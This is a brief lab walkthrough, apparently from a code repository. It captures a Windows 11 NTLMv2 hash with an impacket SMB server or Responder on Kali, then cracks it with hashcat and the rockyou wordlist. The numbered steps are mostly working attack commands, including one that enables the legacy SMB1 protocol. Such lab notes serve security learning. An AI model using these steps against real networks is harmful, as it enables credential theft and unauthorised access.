 # Steps:
1. In Win11 `Enable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol -All`.
1. In Kali `sudo mkdir /tmp/fakeshare`.
1. In Kali `sudo sh -c 'echo "Test" > /tmp/fakeshare/test.txt`.
1. In Kali `python3 /usr/share/doc/python3-impacket/examples/smbserver.py SHARE /tmp/fakeshare -smb2support` or `sudo responder -I eth0`.
1. In Win11, browse `\\192.168.8.10\SHARE` in file explorer.
1. In Kali `Save the captured NTLMv2 authentication hash into ~/Desktop/ntlmv2.hash`.
1. In Kali `hashcat -m 5600 ~/Desktop/ntlmv2.hash /usr/share/wordlists/rockyou.txt`.

# Results
The result will be listed as Candidates.#1....: Password -> Password


